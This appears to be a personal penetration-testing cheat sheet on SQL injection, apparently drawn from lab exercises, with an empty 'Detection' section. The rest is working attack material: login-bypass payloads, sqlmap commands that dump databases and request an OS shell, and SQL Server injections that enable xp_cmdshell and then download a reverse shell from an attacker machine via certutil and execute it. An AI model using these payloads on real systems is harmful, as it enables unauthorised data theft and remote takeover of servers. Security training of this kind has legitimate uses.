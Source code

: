 ## Detection
bla bla

## Basic SQL injection
```
MySQL
Username: Administrator
Password: ' OR 1=1#

Username: admin' OR 1=1 -- -
Password: admin' OR 1=1 -- -
```

## SQLmap
Below example is a search engine on website for authenticated users:
```
# Use saved request from burp suite (RMB -> Save item)
sqlmap -r login.req

# URL to search:
# http://10.129.95.174/dashboard.php?search=ELI%27+OR+1%3D1%23

# basic scan to confirm vuln
sqlmap --url http://10.129.95.174/dashboard.php?search= --cookie="PHPSESSID=sessioncookie"

# dump data
sqlmap --url http://10.129.95.174/dashboard.php?search= --cookie="PHPSESSID=sessioncookie" --all

# Enumerate the database and tables to identify any sensitive information stored in the database.
sqlmap -r login.req --dbs

# Enumerate the database named main by extracting the table names.
sqlmap -r login.req -D main --tables

# Extract all the data from the user table.
sqlmap -r login.req -D main -T user --dump

# try to get command execution
sqlmap --url http://10.129.95.174/dashboard.php?search= --cookie="PHPSESSID=sessioncookie" --os-shell
```

## SQLserver

### RCE
First let turn on the functionality to execute commands: **xp_cmdshell**
```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

turns into

http://127.0.0.1/sql.php?param='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
```
Download reverse shell (generated by msfvenom) and execute it
```
http://127.0.0.1/sql.php?param='; EXEC xp_cmdshell 'certutil -urlcache -f http://<Kali IP>:8081/shell.exe C:\Windows\Temp\shell.exe'; --

http://127.0.0.1/sql.php?param='; EXEC xp_cmdshell 'C:\Windows\Temp\shell.exe'; --
```
